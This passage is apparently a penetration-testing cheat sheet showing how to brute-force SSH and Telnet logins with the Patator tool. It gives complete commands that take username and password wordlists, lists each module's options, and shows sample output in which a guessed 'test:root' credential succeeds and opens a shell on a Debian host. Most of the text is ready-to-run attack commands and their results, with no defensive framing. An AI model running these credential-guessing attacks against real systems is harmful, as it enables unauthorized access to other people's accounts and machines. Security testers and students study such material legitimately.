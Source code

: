 ### SSH
In order to perform an SSH credentials bruteforce we are going to
use the `ssh_login` module.

```sh
./patator.py ssh_login host=IPADDRESS user=FILE0 password=FILE1 0=user.txt 1=pass.txt -x ignore:mesg='Authentication failed.'
```
 
Module options:
```
host          : target host
port          : target port [22]
user          : usernames to test
password      : passwords to test
auth_type     : type of password authentication to use [password|keyboard-interactive|auto]
keyfile       : file with RSA, DSA or ECDSA private key to test
persistent    : use persistent connections [1|0]
```
Output example:
```
11:37:49 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2018-08-09 11:37 CEST
11:37:49 patator    INFO -                                                                              
11:37:49 patator    INFO - code  size    time | candidate                          |   num | mesg
11:37:49 patator    INFO - -----------------------------------------------------------------------------
11:37:53 patator    INFO - 0     38     0.101 | test:root                          |    18 | SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u3
11:38:14 patator    INFO - Hits/Done/Skip/Fail/Size: 1/81/0/0/81, Avg: 3 r/s, Time: 0h 0m 25s
```
### TELNET
In order to perform a telnet credentials bruteforce we are going to
use the `telnet_login` module.
```sh
./patator.py telnet_login host=IPADDRESS inputs='FILE0\nFILE1' 0=user.txt 1=pass.txt persistent=0 prompt_re='Username:|Password:' -x ignore:egrep='incorrect|Password'
 ```

Module options:
```
host          : target host
port          : target port [23]
inputs        : list of values to input
prompt_re     : regular expression to match prompts [\w+:]
timeout       : seconds to wait for a response and for prompt_re to match received data [20]
persistent    : use persistent connections [1|0] 
```
Output example:
```
12:14:11 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2018-08-09 12:14 CEST
12:14:11 patator    INFO -                                                                              
12:14:11 patator    INFO - code  size    time | candidate                          |   num | mesg
12:14:11 patator    INFO - -----------------------------------------------------------------------------
12:15:32 patator    INFO - 0     477   20.085 | test:root                          |    18 |  \r\nLast login: Thu Aug  9 05:09:44 CDT 2018 from 192.168.0.6 on pts/9\r\nLinux debian 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64\r\n\r\nThe programs included with the Debian GNU/Linux system are free software;\r\nthe exact distribution terms for each program are described in the\r\nindividual files in /usr/share/doc/*/copyright.\r\n\r\nDebian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent\r\npermitted by applicable law.\r\ntest@debian:~$ 
12:20:12 patator    INFO - Hits/Done/Skip/Fail/Size: 1/81/0/0/81, Avg: 0 r/s, Time: 0h 6m 0s
 ```